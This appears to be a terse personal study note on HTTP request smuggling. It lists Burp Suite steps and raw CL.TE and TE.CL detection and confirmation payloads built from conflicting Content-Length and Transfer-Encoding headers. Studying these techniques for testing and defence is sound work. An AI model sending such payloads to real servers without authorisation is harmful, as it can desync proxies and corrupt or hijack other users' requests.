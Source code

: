 ____

HTTP /1
Change request method 

We have to receive HTTP /1 200 OK 

Extension: HTTP Request Smuggler -> Launch all scans

Repeater --> uncheck Update Content-Length 

![[Pasted image 20240815102523.png]]

![[Pasted image 20240815101327.png]]

![[Pasted image 20240815101531.png]]
# CL.TE
Detect

```
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

Confirm

```
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

send normal request

# TE.CL

Detect

```
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

Confirm

```
Content-Length: 3
Transfer-Encoding: chunked

1
G
0


```


send normal request








